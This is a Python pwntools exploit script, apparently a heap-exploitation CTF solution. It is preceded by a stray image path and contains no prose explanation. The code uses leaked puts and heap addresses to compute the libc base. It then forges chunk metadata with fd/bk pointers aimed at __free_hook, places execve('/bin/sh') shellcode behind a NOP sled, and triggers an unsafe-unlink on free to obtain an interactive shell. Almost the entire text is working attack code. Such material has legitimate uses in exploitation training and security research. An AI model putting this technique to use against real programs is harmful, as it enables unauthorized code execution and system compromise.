 ```python
def edit(index, data):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')

def free(index):
    io.send(b'3')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def exit():
    io.send(b'4')


io = start()
#io.timeout = 0.1
io.recvuntil(b'puts() @ ')
puts = int(io.recvline(), 16)
io.recvuntil(b'heap @ ')
heap = int(io.recvline(), 16)
libc.address = puts - libc.sym['puts']
info("puts: " + hex(puts))
info("libc base: " + hex(libc.address))
info("heap: " + hex(heap))
io.recvuntil(b'> ')



chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

fd_pointer = libc.sym['__free_hook'] - 0x18
bk_pointer = heap + 0x20
shellcode = asm("jmp shellcode;" + "nop;"*0x30 + "shellcode:" + shellcraft.execve("/bin/sh"))
zero_null = p8(0)*(0x88 - len(shellcode) - 8*3)
prev_size = p64(0x90)
size_B = p64(0x90)

payload = p64(fd_pointer) 
payload += p64(bk_pointer) 
payload += shellcode 
payload += zero_null
payload += prev_size
payload += size_B

edit(chunk_a, payload)

free(chunk_b)
#free(chunk_a)

io.interactive()
```
